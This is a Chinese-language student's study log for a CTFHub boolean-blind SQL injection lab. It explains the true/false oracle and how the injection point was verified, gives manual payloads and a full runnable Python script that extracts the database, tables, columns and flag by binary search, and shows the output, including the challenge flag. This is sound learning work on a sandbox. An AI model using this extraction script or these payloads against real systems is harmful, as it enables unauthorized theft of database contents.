


# 2026-10-25 学习记录 · SQL 布尔盲注

> 使用方式：边做边填，不要做完再补。每个推断后面跟一条证据（请求、响应、截图路径）。
>
> 截图直接粘贴到本文档，会自动保存到同名的 `2026-10-25-SQL布尔盲注.assets/` 文件夹；也可以手动把图片放进该文件夹。
>
> 写的时候尽量说人话：把每一步讲成“我想知道什么 → 我输入什么 → 页面回什么 → 所以我明白了什么”。

## 一、今日目标

- [ ] 独立完成 CTFHub 布尔盲注（不看 WP、不问 AI）
- [ ] 能用自己的话讲清布尔盲注的完整判断流程
- [ ] 产出一张可复用的漏洞卡片

## 二、题目信息

| 项 | 值 |
|---|---|
| 平台 / 靶场 | CTFHub |
| 题目 | 布尔盲注 |
| 地址 | http://challenge-95fb3e6f4b4f2835.sandbox.ctfhub.com:10800/ |
| 参数 | `id`（GET 参数，值从 1 开始试） |
| 目标 | 拿到 flag |
| 开始 / 结束时间 | 21:00 / 21:39（约） |

## 三、解题过程（边做边填）

### Step 1：判断注入类型

- 我输入的：1
- 返回差异：页面回显 select * from news where id=1，显示 query_success
- 推断：输入被直接拼进 SQL 的 where id= 后面，页面会回显语句并告诉我有无结果
- 证据（响应长度 / 关键字 / 截图路径）：

### Step 2：验证布尔条件

- 真条件：输入 `1 and 1=1`，页面显示 `query_success`，意思是“查到东西了”
- 假条件：输入 `1 and 1=2`，页面显示 `query_error`，意思是“什么都没查到”
- 怎么确认这个差别靠得住（多测几次 / 看长度 / 状态码）：同一句话连发几次，结果每次都一样；另外 `and 1=2` 这句话语法完全没写错、数据库能正常执行，页面却报错，说明页面不是在说“你语法写错了”，而是在回答“这个条件不成立，一行都没查到”
- 结论：把想问的问题接在 `and` 后面，页面就会替我回答“是 / 否”。这就是盲注的全部：我看不到数据，但我能一直问是或否。
- 另外：`id=1` 不能删掉。它先保证表里真有一行数据，后面的问题才有意义；如果写 `id=999 and 1=1`，前面那半句就是假的，条件再真也查不到东西，页面照样报错

### Step 3：确认注入点与可读数据

- 注入点：地址里的 `id` 参数，数字型（不用加引号，直接写 `1 and ...` 就行）
- 会用到的函数：`database()` 查当前库名，`length()` 数字符个数，`substr()` 从字符串里切出一段，`ascii()` 把字符变成数字（这样才能比大小）
- 怎么知道是 MySQL：能查 `information_schema`（MySQL 自带的系统表，里面记着所有库名、表名、列名），而且 `substr`、`ascii` 这些也都是 MySQL 的写法

### Step 4：猜解数据库名

- 思路（逐字符 / 二分 / 先长度）：先问“库名一共几个字”（`length(database())`），得到 4；再一位一位问“这个字的 ASCII 码比中间那个数大吗”，每问一次砍掉一半范围，几次就能定下来
- 关键 payload：`1 and ascii(substr(database(),1,1))>64` → `query_success`；接着问 `>96`、`>112`……一直对半砍
- 脚本见第四节
- 结果：库名 `sqli`（长度 4，和手工问出来的一样）

### Step 5：表名 → 列名 → flag

- 表名：`flag`、`news`（问 `information_schema.tables`：这个库里都有哪些表；手工二分出第 1 个表名长度为 4，脚本取到 `flag`，第 2 个是 `news`）
- 列名：`flag.flag`；`news.id`、`news.data`（问 `information_schema.columns`：这张表都有哪些列；手工二分出列名长度也是 4）
- flag 读取：把 `select flag from flag limit 0,1` 查出来的结果当成一串字符，再照上面一样一个字一个字问出来

### Step 6：结果

- Flag：`ctfhub{27328a3e1d9c1c73e02f9e61}`
- 验证方式：每问一句就看页面是 `query_success` 还是 `query_error`；手工验证链为“库名长度 4 → 表名长度 4 → 列名长度 4 → 取到值”，与脚本结果一致；flag 是 `ctfhub{...}` 格式；脚本一共问了 457 次

## 四、脚本 / Payload

脚本文件：`学习记录\sqlblind.py`（可以直接运行；下面这段和文件里一模一样）。

整体就三块：

1. `success(expr)`：把 `1 and 条件` 发给服务器，看页面里有没有 `query_success`，有就是“是”，没有就是“否”
2. `length_of()`：问长度，每次取中间值试，范围砍一半
3. `char_at()`：问某一位字符的 ASCII 码，同样每次砍一半

```python
# CTFHub boolean blind - automated extraction
# oracle: page contains "query_success" when the WHERE clause matches a row
import sys
import time
import requests

URL = "http://challenge-95fb3e6f4b4f2835.sandbox.ctfhub.com:10800/"
S = requests.Session()
COUNT = [0]


def success(expr):
    payload = "1 and " + expr
    last = None
    for _ in range(3):
        try:
            r = S.get(URL, params={"id": payload}, timeout=10)
            COUNT[0] += 1
            return "query_success" in r.text
        except Exception as e:
            last = e
            time.sleep(1)
    raise RuntimeError("request failed: %s (%s)" % (expr, last))


def length_of(expr):
    lo, hi = 0, 200
    while lo < hi:
        mid = (lo + hi) // 2
        if success("length((%s)) > %d" % (expr, mid)):
            lo = mid + 1
        else:
            hi = mid
    return lo


def char_at(expr, pos):
    lo, hi = 0, 127
    while lo < hi:
        mid = (lo + hi) // 2
        if success("ascii(substr((%s),%d,1)) > %d" % (expr, pos, mid)):
            lo = mid + 1
        else:
            hi = mid
    return chr(lo)


def string_of(expr, maxlen=200):
    n = length_of(expr)
    if n <= 0 or n > maxlen:
        return ""
    out = []
    for i in range(1, n + 1):
        out.append(char_at(expr, i))
    return "".join(out)


def list_names(sql, maxn=30):
    names = []
    for i in range(maxn):
        name = string_of("%s limit %d,1" % (sql, i))
        if not name:
            break
        names.append(name)
        print("    [%d] %s  (requests=%d)" % (i, name, COUNT[0]))
        sys.stdout.flush()
    return names


def main():
    db = string_of("database()")
    print("[+] database = %s  (len=%d, requests=%d)" % (db, len(db), COUNT[0]))

    print("[*] tables:")
    tabs = list_names("select table_name from information_schema.tables where table_schema=database()")

    all_cols = {}
    for t in tabs:
        print("[*] columns of %s:" % t)
        cols = list_names(
            "select column_name from information_schema.columns where table_schema=database() and table_name='%s'" % t
        )
        all_cols[t] = cols

    # dump any column whose table/column name contains "flag"
    for t in tabs:
        for c in all_cols.get(t, []):
            if "flag" in (t + c).lower():
                val = string_of("select `%s` from `%s` limit 0,1" % (c, t), 300)
                print("[+] FLAG %s.%s = %s" % (t, c, val))

    print("[+] total requests = %d" % COUNT[0])


if __name__ == "__main__":
    main()
```

运行输出（节选）：

```text
[+] database = sqli  (len=4, requests=36)
[*] tables:
    [0] flag  (requests=72)
    [1] news  (requests=108)
[*] columns of flag:
    [0] flag  (requests=152)
[*] columns of news:
    [0] id  (requests=182)
    [1] data  (requests=218)
[+] FLAG flag.flag = ctfhub{27328a3e1d9c1c73e02f9e61}
[+] total requests = 457
```

## 五、卡点与解决

| # | 现象 | 我试过 | 原因 | 怎么解决 |
|---|---|---|---|---|
| 1 | 手拼网址时把 `id=1 and ...` 整句塞进参数值里，变成 `?id=id%3D1+and...` | 直接复制整句到地址栏 | `id=` 后面的等号不用再写，参数值只要 `1 and ...` | 用 `requests` 的 `params` 自动拼地址 |
| 2 | 以为 `substr(database(),1,3)` 是“取第 3 个字符” | 和 `substr(database(),1,1)` 对比，结果一样 | 第三个参数是“取几个字符”，而 `ascii()` 只认第一个字符 | 想取第 n 位就写 `substr(s,n,1)` |
| 3 | 把 `substr(database(),2,1)` 说成“从下标 2（第 3 个）开始” | 拿 `sqli` 手算对比 | SQL 的 `substr` 从 **1** 开始数，第二个参数是“第几位”，不是编程里的下标 | `substr(s,2,1)` = 第 2 个字符；`substr(s,1,2)` = 前 2 个字符 |

## 六、闭卷复现（做完 24 小时内）

- 复现时间：未复现
- 是否独立跑通：否（CTFHub 靶场实例已关闭，无法再访问）
- 卡在哪：待下次新开一道布尔盲注题，按第八节流程独立走一遍

## 七、知识点复盘（用自己的话）

1. 盲注到底在干嘛（为什么看不到数据也能把数据问出来）：页面不给我看数据，只回 `query_success` / `query_error`，我就把它当成“是 / 否”。先用二分问出数据有几个字，再一位一位问出每个字符的 ASCII 码，拼起来就是数据。
2. 页面上哪些现象可以当真假答案：`query_success` = 查到了，等于“是”；`query_error` = 没查到，等于“否”。
3. 常用的几个函数分别管什么：`database()` 查当前库名；`length()` 问长度（几个字）；`substr()` 从字符串里切出某一位；`ascii()` 把字符变成数字，方便比大小。
4. 什么时候该用布尔盲注，而不是 UNION：页面**有回显**、能直接看到查询结果时用 UNION；页面**没有回显**、只给成功/失败时用布尔盲注。

## 八、同类题判断流程（可直接进漏洞卡片）

1. 看到页面不显示数据、只回 `query_success` / `query_error` → 先试 `1 and 1=1`（应成功）和 `1 and 1=2`（应失败），确认能靠真假判断，再上二分
2. 有回显 → UNION；没回显只给真假 → 布尔盲注；本题没有过滤，不需要考虑绕过
3. 常见坑：`id` 要用真实存在的行做底座；`substr` 从 1 开始数，第三个参数是取几个；子查询返回多行时记得加 `limit 0,1`

## 九、AI 使用记录

- 是否使用：是
- 用在哪个环节：手工验证完“注入点在哪”和“怎么算真、怎么算假”之后，让 AI 写脚本把剩下重复的猜字工作批量跑完
- AI 给了什么：Python 脚本（自动发请求 + 对半砍着猜）、以及库名/表名/列名/flag 的结果
- 我自己完成的部分：判断出是数字型注入、验证 `and 1=1` 和 `and 1=2` 的差别、弄明白 `id=1` 为什么要留着、理解二分是怎么砍范围的；脚本跑出来的库名长度 4，和手工问出来的一致，能对上

## 十、下一步

- [ ] 把本记录提炼成 `知识库/web/SQL盲注.md`
- [ ] 安排下一题：
